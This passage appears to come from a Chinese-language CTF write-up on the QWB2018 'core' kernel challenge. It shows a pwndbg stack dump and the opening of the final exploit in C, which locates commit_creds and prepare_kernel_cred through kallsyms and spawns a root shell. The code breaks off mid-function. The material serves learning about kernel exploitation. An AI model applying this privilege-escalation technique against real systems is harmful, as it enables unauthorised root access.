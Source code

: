 ```bash
01:0008│      0xffffb0f3800dbe70 —▸ 0xffff8f25071b3840 ◂— add    qword ptr [r8], rax /* 0x81b6f000014b */
02:0010│      0xffffb0f3800dbe78 —▸ 0xffffffffa17dd6d1 ◂— 0xe824048948df8948
03:0018│      0xffffb0f3800dbe80 ◂— 0x889b
04:0020│      0xffffb0f3800dbe88 —▸ 0xffff8f2507680d00 ◂— 0
05:0028│      0xffffb0f3800dbe90 —▸ 0xffffffffa178ecfa ◂— 0x9e840ffffffdfd3d
06:0030│      0xffffb0f3800dbe98 —▸ 0xffffb0f3800dbe70 —▸ 0xffff8f25071b3840 ◂— add    qword ptr [r8], rax /* 0x81b6f000014b */
07:0038│      0xffffb0f3800dbea0 ◂— 0x10
Breakpoint core_read
pwndbg>
```

最終 exp
```C
QWB2018_core [master●●] cat exploit.c 
// gcc exploit.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
	if(!getuid())
	{
		system("/bin/sh");
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
/* 
 * give_to_player [master●●] check ./core.ko
   ./core.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=549436d
   [*] '/home/m4x/pwn_repo/QWB2018_core/give_to_player/core.ko'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x0)
*/
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
```